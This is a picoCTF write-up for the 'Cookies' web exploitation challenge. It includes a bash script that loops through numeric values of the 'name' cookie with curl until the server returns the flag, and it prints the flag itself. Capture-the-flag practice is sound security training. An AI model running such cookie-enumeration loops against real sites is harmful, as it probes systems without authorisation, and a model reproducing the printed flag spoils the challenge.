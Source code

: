 # Cookies

> Points: 40

> Category: Web Exploitation

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Solution

The challenge is to find the correct numerical value to pass into the **name** cookie so that it outputs the flag.

We can easily automate this process with a simple shell script that loops through numbers and sends it to the website until it gives us the flag.

```sh
#!/bin/bash
count=0
while true; do
	cmd="curl -b name=${count} http://mercury.picoctf.net:54219/check"
	if $cmd | grep "picoCTF{"; then
		break
	else
		((count=count+1))
	fi
done
```

### Flag

> picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
